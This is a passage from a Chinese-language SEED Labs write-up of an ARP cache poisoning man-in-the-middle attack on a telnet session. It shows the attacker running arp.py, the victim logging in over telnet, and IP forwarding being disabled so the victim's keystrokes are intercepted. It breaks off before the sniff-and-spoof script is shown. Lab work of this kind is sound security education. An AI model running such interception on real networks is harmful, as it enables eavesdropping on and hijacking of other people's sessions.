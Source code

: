 发现 ping 得通。

### Step 4 Launch the MITM attack

保持 ip 转发开启，先运行：

```shell
M-10.9.0.105$ arp.py
.
Sent 1 packets.
.
Sent 1 packets.
```

然后开启 telnet：

```shell
A-10.9.0.5$ telnet 10.9.0.6
Trying 10.9.0.6...
Connected to 10.9.0.6.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
1ec98edb592d login: seed
Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-54-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

seed@1ec98edb592d:~$
```

然后关闭 ip 转发：

```shell
M-10.9.0.105$ sysctl net.ipv4.ip_forward=0
net.ipv4.ip_forward = 0
```

此时，在 `A` 中输入内容，无法显示。

编写 `sniff_and spoof.py`：
